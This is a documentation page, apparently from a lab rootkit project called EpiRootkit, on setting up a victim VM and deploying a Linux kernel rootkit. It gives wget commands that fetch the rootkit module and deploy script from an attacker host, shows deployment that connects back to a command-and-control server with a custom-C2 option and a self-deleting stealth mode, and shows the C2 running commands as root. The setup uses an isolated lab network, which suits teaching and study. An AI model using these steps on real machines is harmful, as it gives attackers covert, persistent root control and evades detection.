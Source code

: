 ```yaml
---
title: "Victim VM Setup"
description: "Configure the victim VM and deploy the EpiRootkit"
icon: "shield"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 204
---
```




## Prerequisites

1. **Host setup**: [Host Environment Setup]({{< relref "environment.md" >}})
2. **VM disk**: `victim.qcow2` in `/var/lib/libvirt/images/`
3. **VM launched**: `sudo ./scripts/run_vms.sh victim`


## VM Access

- **IP**: 192.168.200.10 (static)
- **Credentials**: `victim` / `jules`
- **Target**: Ubuntu 20.04 LTS (kernel 5.4.0)

## Deploy Rootkit

### 1. Get Payload
Receive rootkit files from attacker VM:

```bash
# Option A: HTTP download
wget http://192.168.200.11:8080/epirootkit.ko
wget http://192.168.200.11:8080/deploy_rootkit.sh

# Option B: SCP transfer (from attacker VM)
# First: sudo apt install -y openssh-server (inside victim VM)
scp epirootkit.ko deploy_rootkit.sh victim@192.168.200.10:~/

# Option C: Web UI upload (In development)
# Use attacker's web interface file transfer 
```

### 2. Deploy
```bash
# Default deployment (connects to 192.168.200.11:4444)
sudo ./deploy_rootkit.sh

# Custom C2 server
sudo ./deploy_rootkit.sh address=IP/domain port=PORT

# Stealth deployment (self-destructs)
sudo ./deploy_rootkit.sh --self-delete
```

### 3. Verify Connection
Switch to attacker VM C2 server:
```bash
c2-server$ ls
# • Client-1 - UNAUTHENTICATED - Last seen: Just now

c2-server$ auth Client-1 password
c2-server$ exec Client-1 whoami
# Exit code: 0, Output: root
```

## Management

```bash
# Check status
sudo ./deploy_rootkit.sh status

# Remove rootkit
sudo ./deploy_rootkit.sh uninstall
```

## Next Steps

1. **Control**: Use [C2 Server](../../03-attacking-program/overview.md) or [Web UI](../../04-web-ui/overview.md)
2. **Features**: Explore [Rootkit Features](../../05-epirootkit/features/)

